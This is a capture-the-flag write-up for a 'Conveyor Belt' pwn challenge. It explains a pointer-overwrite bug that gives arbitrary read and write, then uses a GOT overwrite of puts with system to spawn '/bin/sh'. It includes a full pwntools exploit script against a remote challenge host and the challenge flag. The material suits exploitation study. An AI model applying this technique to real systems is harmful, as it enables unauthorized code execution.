 # Conveyor Belt

Conveyor belt.

Running the binary, we have two options - add a part to the conveyor belt, and review the belt. When we review the belt, it goes through all the parts we have one by one, printing them, asking us if they are safe. If we say they aren't(that is, not responding with 'Y' or 'y') then we can edit the part.

Let's chuck it into ghidra and see what more we can get.

First of all, we see that the add_part function is like so -
It seems to take a parameter being the address of the previous part.
allocate 0x80 bytes of data. Read 0x80 bytes of data from stdin into this place. 
If the string contains "sh", say the part isn't safe, free the allocated data, return the parameter we got(essentially dont make any chunk and pretend nothing ever happened)

If not, then edit datapointer+0x78 to be the address of the previous part. Essentially, the parts are in the structure

struct part {
char name[0x78];
char* previous_part;
}

Forming a list. The problem is, whenever it asks us to edit a part, it reads 0x80 bytes when only 0x78 are the data segment - giving us an overwrite of the previous_part field. More on this later.

Let's look at the safety check function. It starts on the last part, printing it, asking is if it's safe, and allowing us to edit it if it isn't. Here's our main vuln. An extra 8 bytes are read, letting us overwrite the previous_part field. The function then grabs the previous part field, visits that, prints it, asks if it's safe, etc. etc. until it hits a previous_part field of 0.

What can we do with this? We can create a single part, then activate the safety check. We can edit the previous part field in-place, and then it'll go wherever we want for the next part! This creates two things

1. Arbitrary read, as it'll print out the part.
2. Arbitrary write, as we can say the part isn't safe, and then edit it.
Therefore...
We can set the previous part field to puts@GOT, allowing us to read a libc address. Once we read this, we'll edit puts@GOT too! Let's edit it with the address of system.

Now what? It'll look 0x78 bytes later for the address of the next part, then continue. It'll grab this address, call puts("Next part:") and then calls puts on the next part.

Therefore, if we pretend the next part is the address of /bin/sh, it'll call system("/bin/sh") for us. So, our exploit:

1. Create new part
2. Safety check. Say the part isn't safe. Edit it with 0x78 bytes of junk + address of puts@GOT
3. It'll print the value of puts@got, which is puts@LIBC. Read this value, and subtract appropriate offset to get the libc base. Say part isn't safe. Send system address + 0x70 bytes of junk + /bin/sh address such that whenever it calls puts it'll actually call system, and the next thing it will call puts on is /bin/sh

Script below.

```python
from pwn import *
mode = sys.argv[1]
NUM_TO_NEXTPART = 0x78
padding = b'A' * NUM_TO_NEXTPART
e = ELF("./conveyor")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else "/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
p = e.process() if mode == 'local' else remote('jh2i.com', 50020)
p.recvuntil(b"> ")
p.sendline("1")
p.recvuntil(b": ")
p.sendline("l33t")
p.sendline("2")
p.recvuntil(b"? ")
p.sendline("no")
p.recvuntil(b": ")
# Setup is done. Time for the main exploit.
payload = padding + p64(e.got['puts'])
p.sendline(payload)
p.recvline()
output = p.recvline()[:-1]
print(output)
leak = output + b'\x00' * (8 - len(output))
puts = u64(leak)
log.info(f"Puts address: {hex(puts)}")
libcbase = puts - libc.symbols['puts']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
# Overwrite puts with system. Then, overwrite next part address with /bin/sh. So, it'll load /bin/sh as the next part. It'll try to puts the next part, and boom! Shell popped.
new = p64(libc.symbols['system'])
new += b'B' * (0x78 - len(new))
new += p64(next(libc.search(b"/bin/sh")))
p.sendline(new)
p.interactive()
```

#### Flag: flag{you_broke_the_conveyor}
